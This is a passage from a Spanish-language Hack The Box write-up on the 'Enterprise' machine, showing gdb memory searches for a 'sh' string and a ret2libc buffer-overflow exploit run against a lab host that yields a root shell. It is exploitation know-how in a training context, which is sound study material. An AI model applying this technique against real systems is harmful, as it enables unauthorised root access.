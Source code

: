 ```bash
$ 
[*] Closed connection to 10.10.10.61 port 32812
[*] Got EOF while sending in interactive
```

Pero tampoco... Guiándome por algunos post, algunos simplemente buscaban la cadena "`sh`" (haciendo referencia a la `/bin/sh`), intentemos buscar esa cadena:

```bash
(gdb) find 0xf7e4c060,+87654321,"sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```

Hay 4 coincidencias en memoria, tomemos la primera y remplacémosla por la dirección `/bin/sh` que teníamos:

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname -I
10.10.10.61 172.17.0.1 dead:beef::250:56ff:feb9:7ba 
$ hostname
enterprise.htb
$  
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112boom.gif" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

PERF3ct0000000000oooOOOOOOOOoooooooVoooo.............

Tenemos una `sh` en la máquina víctima aprovechándonos de un buffer overflow con el ataque **ret2libc** (: que belleza eh!

**(Probando con las 4 direcciones que encontramos relacionadas con `sh`, la única que da problemas es `0xf7f70a14`, de resto también obtenemos una Shell 😊)**

> [exploitBOF.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/enterprise/exploitBOF.py)
